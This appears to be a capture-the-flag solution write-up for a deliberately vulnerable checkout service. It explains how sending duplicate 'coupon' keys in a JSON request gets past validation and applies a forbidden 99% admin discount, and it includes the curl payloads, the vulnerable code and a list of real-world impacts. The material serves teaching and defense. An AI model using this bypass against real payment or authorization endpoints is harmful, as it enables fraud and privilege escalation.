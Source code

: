 # Solution

## The Bug

This challenge demonstrates **inconsistent JSON parsing** vulnerability

When JSON contains duplicate keys, different parsers handle them differently:
- Some take the first value
- Some take the last value
- Some reject it entirely

In this code, the validation checks the first occurrence of the coupon key, but the discount calculation uses the last occurrence. This mismatch creates a bypass.

## Discovery

First, try the obvious approach:

```bash
curl -X POST http://localhost:5000/checkout \
  -H "Content-Type: application/json" \
  -d '{"item": "trophy", "coupon": "ADMIN99"}'
```

Result: `{"error": "Admin coupon not allowed"}`

The security check is working. But what if we can trick it?

## The Exploit

Send the coupon key twice with different values:

```bash
curl -X POST http://localhost:5000/checkout \
  -H "Content-Type: application/json" \
  -d '{"item": "trophy", "coupon": "SAVE10", "coupon": "ADMIN99"}'
```

**Result:**
```json
{
  "discount": "99%",
  "final_price": 10.0,
  "success": "Congratulations! Bravo",
  "item": "trophy",
  "original_price": 1000
}
```

Success! The trophy costs $10, well under the $50 budget.

## Why This Works

Looking at the vulnerable code:

```python
# Line 64: Validation checks FIRST occurrence
first_coupon = get_first_value(raw_data, 'coupon')
if first_coupon == 'ADMIN99':
    return error

# Line 70: Discount uses LAST occurrence (from parsed dict)
discount = COUPONS.get(coupon_from_dict, 0)
```

When we send: `{"coupon": "SAVE10", "coupon": "ADMIN99"}`

1. The raw string parser finds `"SAVE10"` first
2. Validation checks: Is "SAVE10" == "ADMIN99"? No → Passes ✓
3. Python's JSON parser keeps the last value: "ADMIN99"
4. Discount calculation: Uses "ADMIN99" → 99% off!

The application uses two different parsing strategies on the same input, creating a security gap.

## Real-World Impact

Real applications have been vulnerable to this:

- **Payment bypasses**: Apply premium discounts while passing basic validation
- **Privilege escalation**: Set `role: user` for validation, `role: admin` for authorization
- **Rate limiting**: Different services count requests differently
- **Filter bypasses**: WAF sees safe values, application sees malicious ones

This happens when:
- JSON passes through multiple services (microservices, API gateways)
- Validation happens in one language, processing in another
- Custom parsers coexist with standard libraries
